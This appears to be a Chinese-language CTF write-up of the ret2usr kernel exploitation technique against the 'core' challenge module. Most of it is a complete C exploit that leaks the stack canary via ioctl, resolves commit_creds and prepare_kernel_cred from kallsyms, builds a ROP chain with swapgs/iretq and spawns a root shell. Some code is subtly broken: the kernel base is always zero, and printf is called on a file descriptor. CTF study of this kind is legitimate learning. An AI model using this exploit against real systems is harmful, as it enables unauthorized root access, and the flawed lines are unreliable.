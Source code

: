 # Items
由于题目分析与ROP中的为同一题，所以思路我这儿不细讲了，这里给出思路地址
> [core利用ROP](../../ROP_kernel/2018_core/README.md)
   
ret2usr 攻击利用了 用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作。
## 0x00 ret2user(no SMEP/SMAP)
ret2usr 攻击利用了 用户空间的进程不能访问内核空间，但内核空间能访问用户空间 这个特性来定向内核代码或数据流指向用户控件，以 ring 0 特权执行用户空间代码完成提权等操作。
我这里的自我理解那就是，在用户态定义了函数调用，然后我们在内核态的时候通过ROP等手法时期直接执行在用户态的代码，这样就实现了在内核态ring0的特权来执行用户代码，实际上还蛮简单的，虽然说这个利用手法在KPTI出现之后很少利用了，但是我毕竟还是刚学，所以还是得了解点的。

---
综上，所以咱们只需要在exp中添加这样一段代码即可：
```
void getRootPrivilige(void){
  void *(*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
  int (*commit_creds_ptr)(void *) = commit_creds;
  (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
```
这里也就是在咱们获得这俩兄弟的地址后在用户程序定义的函数调用，所以咱们只需在ROP中添加这个函数地址使其调用然后通过SWAPGS等系统调用返回用户态即可，以下是成功图！
(是不是很像上此文章的图，兄弟们你们听我狡辩啊不是听我解释，这我真的重新运行的，大伙别说我偷懒)
![](http://imgsrc.baidu.com/super/pic/item/aa64034f78f0f73662139cc34f55b319eac41307.jpg)
1. 通过读取 /tmp/kallsyms 获取 commit_creds 和 prepare_kernel_cred 的方法相同，同时根据这些偏移能确定 gadget 的地址。
2. leak canary 的方法也相同，通过控制全局变量 off 读出 canary。
3. 与 kernel rop 做法不同的是 rop 链的构造:
   > 1. kernel rop 通过 内核空间的 rop 链达到执行 commit_creds(prepare_kernel_cred(0)) 以提权目的，之后通过 swapgs; iretq 等返回到用户态，执行用户空间的 system("/bin/sh") 获取 shell
    > 2. ret2usr 做法中，直接返回到用户空间构造的commit_creds(prepare_kernel_cred(0)) （通过函数指针实现）来提权，虽然这两个函数位于内核空间，但此时我们是 ring 0 特权，因此可以正常运行。之后也是通过 swapgs; iretq 返回到用户态来执行用户空间的 system("/bin/sh")
    

从这两种做法的比较可以体会出之所以要 ret2usr，是因为一般情况下在用户空间构造特定目的的代码要比在内核空间简单得多。（但是据我现在了解最不怕的就是他了(狗头)）
以下是exp：
```
// gcc exp.c -o exp -static -masm=intel -g
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t commit_creds = NULL, prepare_kernel_cred = NULL;        // address of to key function
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RDI_RET 0xffffffff81000b2f  
#define POP_RCX_RET 0xffffffff81021e53
#define IRETQ 0xffffffff81050ac2 
size_t user_cs, user_ss,user_rflags,user_sp;

//int fd = 0;        // file pointer of process 'core'

/*void saveStatus();
void get_function_address();
#void core_read(int fd, char* buf);
void change_off(int fd, long long off);
void core_copy_func(int fd, long long nbytes);
void print_binary(char* buf, int length);
void shell();
*/
void saveStatus(){
  __asm__("mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          );
  puts("\033[34m\033[1m Status has been saved . \033[0m");
}


void getRootPrivilige(void){
  void *(*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
  int (*commit_creds_ptr)(void *) = commit_creds;
  (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
void core_read(int fd, char *addr){
  printf("try read\n");
  ioctl(fd,0x6677889B,addr);
  printf("read done!");
}

void change_off(int fd, long long off){
  printf("try set off \n");
  ioctl(fd,0x6677889C,off);
}

void core_copy_func(int fd, long long nbytes){
  puts("try cp\n");
  ioctl(fd,0x6677889A,nbytes);
}

void get_function_address(){
        FILE* sym_table = fopen("/tmp/kallsyms", "r");        // including all address of kernel functions,just like the user model running address.
        if(sym_table == NULL){
                printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
                exit(1);
        }
        size_t addr = 0;
        char type[0x10];
        char func_name[0x50];
        // when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
        while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
                if(commit_creds && prepare_kernel_cred)                // two addresses of key functions are all found, return directly.
                        return;
                if(!strcmp(func_name, "commit_creds")){                // function "commit_creds" found
                        commit_creds = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
                }else if(!strcmp(func_name, "prepare_kernel_cred")){
                        prepare_kernel_cred = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
                }
        }
}


void shell(){
        if(getuid()){
                printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
                exit(1);
        }
        printf("\033[32m\033[1m[+] Getting the root......\033[0m\n");
        system("/bin/sh");
        exit(0);
}

int main(){
  saveStatus();
  int fd = open("/proc/core",2);              //get the process fd
  if(!fd){
                printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
                exit(1);
        }
  char buffer[0x100] = {0};
        get_function_address();                // get addresses of two key function
  ssize_t vmlinux = commit_creds - commit_creds;            //base address
  printf("vmlinux_base = %x",vmlinux);
  //get canary 
  size_t canary;
  change_off(fd,0x40);
  getchar();
  printf(fd);
  core_read(fd,buffer);
  canary = ((size_t *)buffer)[0];
  printf("canary ==> %p\n",canary);
  //build the ROP
  size_t rop_chain[0x1000] ,i= 0;
  printf("construct the chain\n");
  for(i=0; i< 10 ;i++){
    rop_chain[i] = canary;
  }
  rop_chain[i++] = (size_t)getRootPrivilige; 
  rop_chain[i++] = SWAPGS_POPFQ_RET + vmlinux;
  rop_chain[i++] = 0;
  rop_chain[i++] = IRETQ + vmlinux;
  rop_chain[i++] = (size_t)shell;
  rop_chain[i++] = user_cs;
  rop_chain[i++] = user_rflags;
  rop_chain[i++] = user_sp;
  rop_chain[i++] = user_ss;
  write(fd,rop_chain,0x800);
  core_copy_func(fd,0xffffffffffff0100); 
}
```

